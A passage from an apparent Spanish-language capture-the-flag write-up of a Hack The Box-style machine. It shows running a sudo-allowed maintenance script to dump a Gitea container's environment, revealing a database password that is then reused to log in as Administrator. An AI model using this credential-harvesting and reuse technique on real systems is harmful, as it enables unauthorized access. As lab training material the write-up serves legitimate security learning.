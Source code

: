Para leer la salida JSON convenientemente, podemos utilizar jq para analizar la salida JSON en un formato legible. jq
puede ser instalado utilizando el siguiente comando, sin embargo, ya está presente en la máquina de destino.


Ejecutamos el script con los parámetros adecuados sobre el conteendor de gitea:

```
sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect '{{json .}}' gitea | jq
```

 🔑 **Credenciales descubiertas**:  `yuiu1hoiu4i5ho1uh`

```
<SNIP>

    "Tty": false,
    "OpenStdin": false,
    "StdinOnce": false,
    "Env": [
      "USER_UID=115",
      "USER_GID=121",
      "GITEA__database__DB_TYPE=mysql",
      "GITEA__database__HOST=db:3306",
      "GITEA__database__NAME=gitea",
      "GITEA__database__USER=gitea",
      "GITEA__database__PASSWD=yuiu1hoiu4i5ho1uh",
      "PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin",
      "USER=git",
      "GITEA_CUSTOM=/data/gitea"
    ],

</SNIP>

```


Esta contraseña nos permite autenticarnos en el vhost http://gitea.searcher.htb como usuario Administrator y acceder al repositorio de script, pudiendo de esta forma analizar su contenido:

![](assets/Pasted%20image%2020250504111131.png)
